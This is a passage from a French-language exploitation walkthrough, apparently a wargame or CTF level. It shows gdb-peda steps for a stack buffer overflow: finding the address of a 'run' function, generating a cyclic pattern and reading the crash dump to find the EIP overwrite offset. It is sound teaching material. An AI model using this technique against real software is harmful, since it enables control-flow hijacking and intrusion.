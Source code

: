 > Si ce qu'on écrit dans l'input à l'endroit de l'EIP est l'addresse de la fonction run, elle sera appelée après le retour de la fonction.

> C'est là l'origine des segfault: on écrit n'importe quoi dans l'EIP, et si c'est pas une addresse d'instruction a exécuter, ça crash.

### B: Creation de l'exploit

* Il nous faut donc: l'adresse de la fonction run, et à partir de combien de charactères on va réécrire sur l'EIP.

```shell
  # On choppe l'addresse de run
  gdb-peda$ info function
    [...]
    0x08048444  run
    [...]
  
  # On crée un pattern avec peda (générateur de patterns aussi trouvable sur internet)
  gdb-peda$ pattern create 200 pattern1
    Writing pattern of 200 chars to filename "pattern1"
  
  # On le cat pour le copier
  gdb-peda$ cat pattern1
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

  # On lance la fonction et on colle le pattern
  gdb-peda$ run
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

    # BIM segfault
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    [...]
    # Ici la portion du pattern qui a écrit sur l'EIP
    EIP: 0x41344141 ('AA4A')
    [...]
    [-------------------------------------code-------------------------------------]
    # Ici la confirmation que le segfault est dû à une mauvaise addresse
    Invalid $PC address: 0x41344141
    [------------------------------------stack-------------------------------------]
    # Ici la stack en partant des addresses basses. On voit notre string écrite
    0000| 0xbffff6d0 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0004| 0xbffff6d4 ("fAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0xbffff6d8 ("AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0012| 0xbffff6dc ("AgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0xbffff6e0 ("6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0020| 0xbffff6e4 ("AAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0xbffff6e8 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0028| 0xbffff6ec ("MAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x65414149 in ?? ()
```
